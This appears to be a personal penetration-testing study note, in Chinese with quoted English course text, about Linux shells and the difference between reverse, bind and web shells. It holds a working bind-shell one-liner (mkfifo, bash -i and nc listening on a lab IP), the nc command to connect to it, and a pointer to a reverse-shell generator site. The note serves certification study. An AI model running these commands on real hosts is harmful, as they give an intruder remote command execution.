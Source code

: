 ```yaml
---
tags:
  - 渗透/CPTS
  - IT/Linux
---
```

> On a Linux system, the shell is a program that takes input from the user via the keyboard and passes these commands to the operating system to perform a specific function. In the early days of computing, the shell was the only interface available for interacting with systems. Since then, many more operating system types and versions have emerged along with the graphic user interface (GUI) to complement command-line interfaces (shell), such as the Linux terminal, Windows command-line (cmd.exe), and Windows PowerShell.

> Every operating system has a shell, and to interact with it, we must use an application known as a `terminal emulator`. Here are some of the most common terminal emulators:

- PuTTY
- xterm
- 等

> which has been pre-configured to use a `command language interpreter`, a program working to interpret the instructions provided by the user and issue the tasks to the operating system for processing.

- 即bash、PowerShell等，**shell是命令解释器的一个具体例子**。其他比如还有python解释器等。
- 当在终端随便输入命令然后被提示找不到命令时，可以说明其不在解释器的命令集中。



## 种类

| **Shell Type**                 | **Description**                                                                                                                                                                                                                                   |
| ------------------------------ | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `Reverse shell`<br>[[反弹shell]] | Initiates a connection back to a "listener" on our attack box.                                                                                                                                                                                    |
| `Bind shell`                   | "Binds" to a specific port on the target host and waits for a connection from our attack box.                                                                                                                                                     |
| `Web shell`                    | Runs operating system commands via the web browser, typically not interactive or semi-interactive. It can also be used to run single commands (i.e., leveraging a file upload vulnerability and uploading a `PHP` script to run a single command. |


## Bind shell

用`nc`建立TCP会话连接后可发送文本，但并不是绑定shell，因为我们无法与操作系统和文件系统交互。

建立绑定shell：
```shell
Target@server:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f

# Client - Connecting to bind shell on target
TimeLess613@htb[/htb]$ nc -nv 10.129.41.200 7777
Target@server:~$  
```


## Reverse Shells

[[反弹shell]]

CPTS中PowerShell反弹shell用的<https://www.revshells.com/>的`PowerShell#2`。










---

## tricks

**关于为什么使用`bash -c`：单行代码中有些语法`sh`不支持，所以启动一个`bash`包装这行命令**
	![[Pasted image 20240414191955.png]]


